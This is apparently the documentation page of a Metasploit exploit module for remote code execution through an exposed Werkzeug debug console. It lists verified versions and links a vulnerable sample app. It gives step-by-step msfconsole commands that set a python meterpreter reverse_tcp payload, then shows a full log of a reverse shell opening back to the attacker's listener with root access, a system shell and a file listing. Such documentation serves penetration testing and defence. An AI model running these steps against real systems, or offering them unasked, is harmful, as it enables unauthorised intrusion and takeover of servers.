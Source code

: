 ## Vulnerable Application

Verified against:
  + 0.9.6 on Debian
  + 0.9.6 on Centos
  + 0.10 on Debian
  
A sample application which enables the console debugger is available [here](https://github.com/h00die/MSF-Testing-Scripts/blob/master/werkzeug_console.py)

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/multi/http/werkzeug_debug_rce`
  4. Do: `set rport <port>`
  5. Do: `set rhost <ip>`
  6. Do: `check`
```
[+] 10.108.106.201:8081 - The target is vulnerable.
```
  7. Do: `set payload python/meterpreter/reverse_tcp`
  8. Do: `set lhost <ip>`
  9. Do: `exploit`
  10. You should get a shell.

## Options

  **TARGETURI**

  TARGETURI by default is `/console`, as defined by werkzeug, however it can be changed within the python script.

## Scenarios

Example utilizing the previously mentioned sample app listed above.

```
msf > use exploit/multi/http/werkzeug_debug_rce
msf exploit(werkzeug_debug_rce) > set rport 8081
rport => 8081
msf exploit(werkzeug_debug_rce) > set rhost 10.108.106.201
rhost => 10.108.106.201
msf exploit(werkzeug_debug_rce) > check
[+] 10.108.106.201:8081 - The target is vulnerable.
msf exploit(werkzeug_debug_rce) > set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
msf exploit(werkzeug_debug_rce) > set lhost 10.108.106.121
lhost => 10.108.106.121
msf exploit(werkzeug_debug_rce) > exploit

[*] Started reverse handler on 10.108.106.121:4444
[*] Sending stage (25277 bytes) to 10.108.106.201
[*] Meterpreter session 2 opened (10.108.106.121:4444 -> 10.108.106.201:36720) at 2015-07-09 19:02:52 -0400

meterpreter > getpid
Current pid: 13034
meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : werkzeug
OS           : Linux 3.16.0-4-amd64 #1 SMP Debian 3.16.7-ckt11-1 (2015-05-24)
Architecture : x86_64
Meterpreter  : python/python
meterpreter > shell
Process 13037 created.
Channel 0 created.
/bin/sh: 0: can't access tty; job control turned off
# ls
app.py  app.pyc  werkzeug
# exit
meterpreter > exit
[*] Shutting down Meterpreter...
```
